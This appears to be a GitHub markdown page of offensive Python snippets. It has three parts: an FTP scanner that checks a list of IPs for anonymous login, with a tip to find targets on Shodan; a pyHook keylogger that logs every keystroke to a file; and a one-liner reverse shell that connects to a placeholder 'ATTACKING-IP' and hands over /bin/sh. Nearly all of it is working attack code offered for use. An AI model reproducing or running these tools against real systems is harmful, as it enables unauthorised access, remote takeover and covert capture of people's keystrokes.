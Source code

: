 # Enumerating Anonymous FTP Logins Using Python:

```python
#!/usr/bin/python3

from ftplib import FTP
import sys

ips = open(sys.argv[1], 'r')
r = ips.readlines()
for item in r:
    item = item.strip()
    print("[+] Connecting to: %s \n" %item)
    try:
        ftp = FTP(item, timeout=3) 
        ftp.login()
       
        if ftp.retrlines('LIST') != 0:
            print("[+] Anonymous login enabled on Host: %s \n" %item)
            print("="*70+"\n")
    except:
        print("[+] Unable to Connect to Host: %s\n" %item)
        print("="*70+"\n")
```

1. Usage : ```python3 FTPLoginChecker.py ip_addresses.txt```
2. Note : Use shodan_eye.py to search for FTP servers that have the ```anon``` login enabled.
3. Search Keyword : ```230 anonymous```

# Python Keylogger:

```python
import pyHook, pythoncom, logging
logging.basicConfig(filename='mykeylogger.txt', level=logging.DEBUG, format='%(message)s')

def OnKeyboardEvent(event):
    logging.log(logging.DEBUG,chr(event.Ascii))
    return True

hooks_manager = pyHook.HookManager()
hooks_manager.KeyDown = OnKeyboardEvent
hooks_manager.HookKeyboard()
pythoncom.PumpMessages()
```

# Python Reverse Shell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
